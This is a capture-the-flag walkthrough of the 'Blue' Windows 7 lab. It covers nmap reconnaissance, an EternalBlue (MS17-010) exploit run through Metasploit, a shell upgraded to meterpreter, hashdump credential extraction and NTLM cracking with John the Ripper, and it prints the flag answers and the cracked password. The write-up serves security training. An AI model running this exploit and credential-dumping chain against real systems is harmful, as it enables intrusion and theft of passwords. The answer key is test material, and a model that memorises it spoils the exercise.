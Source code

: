 # Blue

### Recon
- How many ports are open with a port number under 1000?<br />
First nmap scan: <br />

      $ nmap 10.10.8.108                          
      Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-02 08:39 EDT
      Nmap scan report for 10.10.8.108
      Host is up (0.049s latency).
      Not shown: 991 closed tcp ports (conn-refused)
      PORT      STATE SERVICE
      135/tcp   open  msrpc
      139/tcp   open  netbios-ssn
      445/tcp   open  microsoft-ds
      3389/tcp  open  ms-wbt-server
      49152/tcp open  unknown
      49153/tcp open  unknown
      49154/tcp open  unknown
      49158/tcp open  unknown
      49159/tcp open  unknown

      Nmap done: 1 IP address (1 host up) scanned in 0.87 seconds
Open ports under 1000 are `3`.
- What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067) <br />
A more accurate scan: <br />

      nmap -p 0-1000 -sV -sC 10.10.8.108                                                                                  
      Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-02 08:42 EDT
      Nmap scan report for 10.10.8.108
      Host is up (0.058s latency).
      Not shown: 998 closed tcp ports (conn-refused)
      PORT    STATE SERVICE      VERSION
      135/tcp open  msrpc        Microsoft Windows RPC
      139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
      445/tcp open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
      Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows
      
      Host script results:
      | smb-os-discovery: 
      |   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
      |   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
      |   Computer name: Jon-PC
      |   NetBIOS computer name: JON-PC\x00
      |   Workgroup: WORKGROUP\x00
      |_  System time: 2024-09-02T06:42:21-05:00
      | smb2-security-mode: 
      |   2:1:0: 
      |_    Message signing enabled but not required
      |_nbstat: NetBIOS name: JON-PC, NetBIOS user: <unknown>, NetBIOS MAC: 02:95:7f:42:ac:55 (unknown)
      | smb2-time: 
      |   date: 2024-09-02T11:42:21
      |_  start_date: 2024-09-02T11:30:29
      | smb-security-mode: 
      |   account_used: guest
      |   authentication_level: user
      |   challenge_response: supported
      |_  message_signing: disabled (dangerous, but default)
      |_clock-skew: mean: 39m28s, deviation: 2h53m12s, median: -1h00m32s
      
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 13.27 seconds
So, after reaserching "Windows 7 Professional 7601 Service Pack 1 microsoft-ds", I found out that this SMB version is vulnerable to `MS17-010`, a.k.a. `EternalBlue`.

### Gain Access
- Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)
Open msfconsole and `use windows/smb/ms17_010_eternalblue` --> `set lhost your_IP` --> `set rhosts target_IP` --> `exploit`: <br />
- Show options and set the one required value. What is the name of this value? (All caps for submission) `RHOSTS`

### Escalate
- If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected) `post/multi/manage/shell_to_meterpreter`
- Select this (use MODULE_PATH). Show options, what option are we required to change? `SESSION`

### Cracking
- Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user? <br />
![image](https://github.com/user-attachments/assets/85690b30-ca83-4967-9232-b90e9e5c85e2) <br />
`Jon`
- Copy this password hash to a file and research how to crack it. What is the cracked password?  <br />
To crack the password I'm going to use John the Ripper. Copy the line relative to "Jon" in a txt file. In windows password hashes are stored in NTLM format, so the final command is: `john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt ntlmhash.txt`. <br />
![image](https://github.com/user-attachments/assets/484d04fa-5f6e-4bb0-8a13-0cc01923d781)<br />
`alqfna22`

### Find flags!
- Flag1? This flag can be found at the system root. <br />
Move to `C:\` and run `cat flag1.txt`: `flag{access_the_machine}`
- Flag2? This flag can be found at the location where passwords are stored within Windows. <br />
Passwords are store in the SAM(Security Account Manager) directory, which is located at `C:\Windows\System32\config`. The flag is: `flag{sam_database_elevated_access}`
- flag3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved. <br />
I honestly didn't know where to look at, since this is my first windows machine. So I run `search -f flag3.txt` to find the flag, which was in c:\Users\Jon\Documents\flag3.txt. The flag is: `flag{admin_documents_can_be_valuable}`. I was actually looking for some sort of administrator account but actually Jon is an administrator, my bad.
